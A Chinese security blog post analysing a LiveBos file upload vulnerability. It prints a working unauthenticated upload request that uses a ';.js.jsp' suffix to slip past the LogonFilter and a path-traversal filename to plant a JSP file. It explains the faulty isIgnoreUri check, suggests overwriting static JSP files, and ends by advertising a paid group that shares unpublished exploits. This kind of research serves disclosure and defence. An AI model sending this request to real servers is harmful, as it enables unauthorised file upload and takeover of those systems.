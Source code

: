 #  [漏洞分析]LiveBos文件上传漏洞复现及绕过分析   
原创 zzz  良月安全   2024-08-05 12:37  
  
## 免责声明  
  
本公众号所发布的所有内容，包括但不限于信息、工具、项目以及文章，均旨在提供学习与研究之用。所有工具安全性自测。如因此产生的一切不良后果与文章作者和本公众号无关。如有涉及公司与个人敏感信息，侵权烦请告知，我们会立即删除并致歉。  
  
## 前言  
  
最近看到了LiveBos的文件上传，发现他的绕过是;.js.jsp看样子像是利用某种解析差异的特性来绕过。但看完代码后发现是有点搞笑的，于是做个记录。  
  
## 漏洞复现  
  
利用poc如下：  
```
POST /feed/UploadFile.do;.js.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="//../../../../1.jsp"
Content-Type: image/png

123
-----------------------------45250802924973458471174811279
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxMcMxIarbcypBjQFXWdJynftDyjyiaibGiahYnWibag9ibNsI5DrkqIrtnibg/640?wx_fmt=png&from=appmsg "")  
  
上传后访问/1.jsp;.js.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxf4DqQyVIGI6OcR74tlUHBfyXpz3TtDUtS2S61kNjdheBVXgnSgCx5Q/640?wx_fmt=png&from=appmsg "")  
  
## 绕过分析  
  
这里对于文件上传漏洞具体的逻辑就不进行分析了，代码种同样还存在其他上传的接口。这里主要看下/feed/UploadFile.do;.js.jsp这个权限绕过是咋回事，因为直接访问/feed/UploadFile.do是会提示 "未登录或会话已过期"的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxS6dhWUoEBKuiaXiaqPeA6UTF01PHfwACRu5tqttPm5l7hxhniaK4r3ibicw/640?wx_fmt=png&from=appmsg "")  
  
;.js.jsp这个权限绕过的方式就很眼熟，最开始还以为又是利用解析的差异性来进行绕过的，但是测试发现/feed/UploadFile.do;.js，/feed/UploadFile.do;.js.png这种均无法进行绕过。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxEAv9icwjGhs4jytkHWGtDlIf4hv2G6c9CUbXbO8nZR1AJpkv8LKGc4Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxH0zibSfgu739ZMs4xoBcic498n50YvMibNcACT6ahRFa2QAFgEOfvOC3w/640?wx_fmt=png&from=appmsg "")  
  
查看源代码，寻找原因，在web.xml中看到2个关于.do文件的filter，LogonFilter和Compression Filter。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxmc3GzwiaReRfhNHVwdfSKt4FKWR9LRViap9jX9Zyv38p14pHvQvET8IA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxv3fXEU9xLxnp1ic744X5zvc8maS3huGylFYx7F92ah4lpDma0VZbXhQ/640?wx_fmt=png&from=appmsg "")  
  
Compression Filter中没有啥关于传入的url解析判断的逻辑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxNyzAjvHzAGcTqe9gR5r95vhicTDRxNuicu1YwDibUrVZZWiaKibXbPVAoww/640?wx_fmt=png&from=appmsg "")  
  
LogonFilter中先从会话中获取登录用户的信息，并进行校验，因为我们没有进行登录，所以不会进入这个if分支。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxWZCpImF8cgQpzkJ8uP4wEviaSWNsdeEABosBnabngT5VicAVoXmWTKog/640?wx_fmt=png&from=appmsg "")  
  
在下一个if分支中，判断isIgnoreUri方法返回的值为true，为true则直接传递给下一个过滤器，否则抛出异常。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxicCczxDoq80wiaNCicmpe1ye0BkF6dpbIMYicJEQngnNibzY5iavjwwqGY3g/640?wx_fmt=png&from=appmsg "")  
  
在isIgnoreUri方法中，逻辑就很简单，在传入的uri等于/css/stylesheet.jsp，或者传入的uri以.js.jsp和.css.jsp结尾的时候，就会返回true。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxT0Daaw7JSaojcmAaCE9aSHN6ib8aGpYptJ4Mc05RNsMUCSSuv3zWMTQ/640?wx_fmt=png&from=appmsg "")  
  
这里就大概明白/feed/UploadFile.do;.js.jsp为什么能进行权限绕过了。。  
  
通过上述代码分析，不难发现，/feed/UploadFile.do;.css.jsp也是能进行权限绕过的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iavWjmQfnia2XM6vKnz1j8yxvbAXut0vTCYxxqkP6ibgfDA9gvPgd9GMxic5Zml3EnUjAJAM6g6icKQQg/640?wx_fmt=png&from=appmsg "")  
  
另外，上传后的jsp文件也是不能直接访问的，也要通过;.js.jsp或者;.css.jsp的形式来进行权限绕过，但其实可以覆盖原本的/css/stylesheet.jsp文件或者其他的.css.jsp和.js.jsp文件，/css/stylesheet.jsp文件及.css.jsp和.js.jsp文件本身的内容就是静态的内容，覆盖了影响也不大，这样就不用权限绕过也能访问到上传的jsp文件了。  
  
## 关于星球  
  
星球里有团队内部POC分享。星球定期更新安全内容，包括：内部漏洞库情报分享（包括部分未公开0/1day）、poc利用工具及内部最新研究成果。圈子目前价格为89元（交个朋友），后续人员加入数量多的话会考虑涨价（先到先得！！）感谢师傅们的支持！！！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82iaClnv9oeuYRGNEgExPzA4cVrcGF1gvNM8e1LygD9R3vd29kbOS4ukYtibW9icNZBuqEzJXEl9enMkw/640?wx_fmt=png&from=appmsg "")  
  
